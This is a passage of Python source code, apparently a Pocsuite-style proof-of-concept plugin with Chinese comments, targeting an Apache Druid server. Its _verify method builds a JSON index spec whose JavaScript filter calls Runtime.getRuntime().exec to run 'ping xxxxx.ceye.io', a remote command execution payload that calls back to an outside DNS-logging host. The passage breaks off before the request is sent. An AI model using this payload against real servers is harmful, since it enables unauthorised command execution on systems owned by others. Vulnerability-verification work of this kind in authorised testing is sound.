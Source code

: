 ```py
    samples = []  # 测试样列,就是用 PoC 测试成功的网站
    install_requires = []  # PoC 第三方模块依赖，请尽量不要使用第三方模块，必要时请参考《PoC第三方模块依赖说明》填写
    pocDesc = '''  '''

    def _verify(self):
        result = {}
        vul = self.url
        headers = {
            "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:85.0) Gecko/20100101 Firefox/85.0",
            "Accept": "application/json, text/plain, */*",
            "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
            "Content-Type": "application/json",
        }
        data = {
                "type":"index",
                "spec":{
                    "type":"index",
                    "ioConfig":{
                        "type":"index",
                        "firehose":{
                            "type":"local",
                            "baseDir":"/opt/",
                            "filter":""
                        }
                    },
                    "dataSchema":{
                        "dataSource":"sample",
                        "parser":{
                            "type":"string",
                            "parseSpec":{
                                "format":"json",
                                "timestampSpec":{
                                    "column":"time",
                                    "format":"iso"
                                },
                                "dimensionsSpec":{

                                }
                            }
                        },
                        "transformSpec":{
                            "transforms":[

                            ],
                            "filter":{
                                "type":"javascript",
                                "function":"function(value){return java.lang.Runtime.getRuntime().exec('ping xxxxx.ceye.io')}",
                                "dimension":"added",
                                "":{
                                    "enabled":"true"
                                }
                            }
                        }
                    }
                },
                "samplerConfig":{
                    "numRows":500,
                    "cacheKey":"c67e2881f1c64110b40c0f67608b0022"
                }
            }
        try:
```